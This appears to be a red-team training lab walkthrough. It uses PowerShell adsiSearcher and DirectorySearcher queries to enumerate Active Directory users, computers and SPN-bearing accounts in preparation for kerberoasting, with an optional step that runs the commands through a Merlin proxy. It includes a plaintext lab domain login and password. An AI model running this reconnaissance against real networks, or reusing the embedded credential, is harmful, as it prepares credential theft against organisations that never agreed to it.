 # Advanced Enumeration

[adsiSearcher] Is a Type Accelerator
https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_type_accelerators?view=powershell-7.3

Type accelerators are aliases for .NET framework classes. They allow you to access specific .NET framework classes without having to explicitly type the entire class name.

- on every machine with no additional installs required

1. Remote from LIGHTEATER to the TWORIVERS.wheel.co machine using the wheel\macauthon | pw: Ch!ldr3nOfTheL1ght  acount.  This only works if you are in the security context of a domain user.  If you have system, you can also inject into a domain users process to assume that context, or impersonate.
   
2. Open powershell_ise.

![Open ISE](./powershell_ise.png)

3. `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`

$psISE.PowerShellTabs.Add()
$psISE.PowerShellTabs.SetSelectedPowerShellTab($psISE.PowerShellTabs[0])
$a = $psISE.PowerShellTabs[1].InvokeSynchronous("([adsisearcher]`'(&(objectCategory=user))`').findall()")
$a

![PS AD Enumeration](./powershell-enum.png)

1. Enumerate users and computers.
```
"([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"

([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json
```

1. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  

```
[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams
```
---------------tested to here for enumeraiton-------------

<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>


This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```


